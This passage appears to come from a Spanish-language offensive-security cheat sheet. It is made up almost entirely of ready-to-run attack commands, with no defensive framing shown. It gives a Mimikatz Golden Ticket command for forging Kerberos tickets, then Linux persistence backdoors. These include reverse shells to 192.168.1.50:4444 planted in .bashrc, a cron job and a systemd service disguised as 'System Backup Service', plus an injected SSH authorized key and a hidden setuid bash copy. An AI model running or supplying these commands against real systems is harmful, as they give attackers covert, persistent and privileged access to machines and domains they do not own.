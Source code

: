 ### 3. Golden Ticket Attack

```powershell
# Obtener información del dominio
nltest /domain_trusts
net time /domain

# Crear Golden Ticket con Mimikatz
mimikatz.exe "kerberos::golden /user:administrator /domain:company.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:1234567890abcdef1234567890abcdef /ptt"
```

## 🔒 Técnicas de Persistencia

### 1. Persistencia en Linux

```bash
# 1. Backdoor en ~/.bashrc
echo 'bash -i >& /dev/tcp/192.168.1.50/4444 0>&1' >> ~/.bashrc

# 2. Cron job
echo '*/5 * * * * /bin/bash -c "bash -i >& /dev/tcp/192.168.1.50/4444 0>&1"' | crontab -

# 3. Servicio systemd
cat > /etc/systemd/system/backdoor.service << EOF
[Unit]
Description=System Backup Service
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.50/4444 0>&1'
Restart=always
User=root

[Install]
WantedBy=multi-user.target
EOF

systemctl enable backdoor.service
systemctl start backdoor.service

# 4. SSH key backdoor
mkdir -p ~/.ssh
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAB...' >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

# 5. Setuid backdoor
cp /bin/bash /tmp/.backdoor
chmod 4755 /tmp/.backdoor
```
